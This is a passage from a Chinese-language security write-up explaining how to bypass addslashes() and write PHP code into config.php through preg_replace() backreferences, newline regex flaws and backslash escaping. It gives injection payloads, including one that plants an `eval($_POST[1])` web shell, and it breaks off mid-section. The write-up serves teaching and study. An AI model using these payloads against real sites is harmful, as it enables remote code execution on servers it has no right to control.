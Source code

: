 > 在[preg_replace](https://www.php.net/manual/zh/function.preg-replace.php)()的参数2中，`\0`和`$0`表示完整的模式匹配文本，即代表匹配到的全部内容

那么第一次将`;phpinfo();`写入了config.php

第二次传入`%00`，被addslashes()转为`\0`，那么就代表其匹配到的文本，即：`$option=';phpinfo();';`

```php
# 那么
preg_replace('|\$option=\'.*\';|', "\$option='\\0';", $file);
# 等同于
preg_replace('|\$option=\'.*\';|', "\$option='\$option=';phpinfo();';';", $file);
```

最终成功闭合单引号，将语句写入config.php：

```php
$option='\$option=';phpinfo();';';
```

### 2.利用换行符`%0a`和正则匹配缺陷

传入`?option=aaa';phpinfo();%0a//`

单引号`'`被addslashes()转义为`\'`

那么此时config.php内容为：

```php
<?php
$option='aaa\';phpinfo();
//';
```

正则表达式`\$option=\'.*\';`匹配到的内容为：`$option='aaa\';`，

将其替换为任意传入的字符串`?option=111`后重新写入config.php，从而成功闭合单引号：

```php
<?php
$option='111';phpinfo();
//';
```

### 3.利用反斜杠`\`转义单引号

```
?option=\';eval($_POST[1]);//
```

addslashes()将`\`转义为`\\`

但经preg_replace()处理后`\\`再次变为`\`
（即对单引号中的转义字符`\\`的处理）

```php
preg_replace('|\$option=\'.*\';|', "\$option='\\';", $file);
```

写入后：
